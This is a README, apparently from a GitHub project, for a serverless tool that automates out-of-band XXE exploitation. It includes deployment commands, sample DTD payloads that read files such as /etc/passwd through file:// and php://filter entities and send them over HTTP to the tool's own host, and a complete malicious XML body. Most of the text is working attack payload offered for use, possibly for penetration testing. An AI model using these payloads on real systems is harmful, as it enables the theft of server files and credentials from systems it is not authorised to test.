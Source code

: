 # XXE Server
This example is based off a similar project I wrote a while ago, (xxetimes)[https://github.com/ropnop/xxetimes]. After discovering an OOB XXE vulnerability, exploitation is usually a very manual process that includes spinning up at least one listening server, customizing DTD files and parsing data dump output.

This serverless function provides two main functionalities to help:

 * Template generation and serving up of DTD files
 * Parsing encoded data in GET params and posting to Slack

The server will dynamically generate DTD files for HTTP data exfiltration using parameter expansion when the `/dtd` endpoint is hit. It accepts a `filename` parameter to create the file entity. It also supports PHP Base64 encoding when the `php` parameter is sent. The parameter expansion will send data to the same server at the `/data` endpoint.

The `/data` endpoint simply decodes any incoming data as part of the URL query and dumps it to a Slack webhook.

The function requires the `SLACK_WEBHOOK` environment variable

## Deployment
Since it is possible to view public `now.sh` deployment source code and environment variables, it is advisable to keep your Slack WEBHOOK_URL in a [now.sh secret](https://zeit.co/docs/v1/features/env-and-secrets)

```
$ now secret add slack-webhook-xxe https://hooks.slack.com/services/YOUR_WEBHOOK_HERE
```

And deploy with the environment variable:

```
$ now -e SLACK_WEBHOOK=@slack-webhook-xxe --public
```

## Usage
The `/dtd` endpoint is used to generate DTDs with parameter expansion. The two optional paramaters are `filename` and `php`. It's easiest to view the differences:

No params:
```
$ curl https://xxeserver-riigdrbgdd.now.sh/dtd
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data?%file;'>">
%all;
%send;
```

Filename specified:
```
$ curl "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/passwd"
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data?%file;'>">
%all;
%send;
```

PHP specified (will use base64 encoding)
```
$ curl "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/passwd&php=true"
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'https://xxeserver-riigdrbgdd.now.sh/data64?%file;'>">
%all;
%send;
```

When explointing an XXE vulnerability, the XML sent to the server will therefore look something like this:
```
<?xml version="1.0" ?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "https://xxeserver-riigdrbgdd.now.sh/dtd?filename=/etc/issue&php=true">
%dtd;
]>
<foobar>
<hello>world</hello>
</foobar>
```

When submitted, the contents of `/etc/issue` are dumped to Slack:
![xxe_data](../imgs/xxeserver_data.png)



